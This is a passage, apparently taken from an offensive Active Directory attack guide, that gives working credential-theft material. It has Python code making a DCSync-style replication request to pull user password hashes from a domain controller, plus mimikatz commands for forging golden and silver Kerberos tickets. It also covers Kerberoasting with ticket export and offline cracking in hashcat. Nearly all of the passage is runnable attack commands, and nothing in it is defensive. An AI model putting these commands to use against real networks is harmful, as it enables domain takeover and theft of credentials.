 ```python
    name_request['formatDesired'] = drsuapi.DS_UNIQUE_ID_NAME
    name_request['rpNames'][0]['pName'] = f"{domain}\\{username}"
    
    request['pmsgIn']['V1'] = name_request
    resp = dce.request(request)
    
    user_dn = resp['pmsgOut']['V1']['pResult']['rItems'][0]['pDomain']
    
    # DRSGetNCChanges to get credentials
    request = drsuapi.DRSGetNCChanges()
    request['hDrs'] = drs_handle
    request['dwInVersion'] = 8
    
    nc_request = drsuapi.DRS_MSG_GETCHGREQ_V8()
    nc_request['uuidDsaObjDest'] = drsuapi.NTDSAPI_CLIENT_GUID
    nc_request['uuidInvocIdSrc'] = NULL
    nc_request['pNC']['Guid'] = user_dn
    
    request['pmsgIn']['V8'] = nc_request
    resp = dce.request(request)
    
    # Extract hashes from response
    hashes = extract_hashes_from_drsuapi(resp)
    
    dce.disconnect()
    return hashes
```

### 1.4 Kerberos Ticket Extraction (T1558)

#### Golden Ticket Attack
```powershell
# Create Golden Ticket (requires krbtgt hash)
mimikatz.exe "kerberos::golden /domain:corporate.local /sid:S-1-5-21-... /krbtgt:hash /user:Administrator /id:500 /ptt" "exit"

# Use ticket
dir \\dc01\C$
```

#### Silver Ticket Attack
```powershell
# Create Silver Ticket (requires service account hash)
mimikatz.exe "kerberos::golden /domain:corporate.local /sid:S-1-5-21-... /target:server01.corporate.local /service:cifs /rc4:hash /user:Administrator /ptt" "exit"
```

#### Kerberoasting
```powershell
# Request service tickets
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/server01.corporate.local"

# Export tickets
mimikatz.exe "kerberos::list /export" "exit"

# Crack offline with hashcat
hashcat -m 13100 tickets.txt wordlist.txt
```
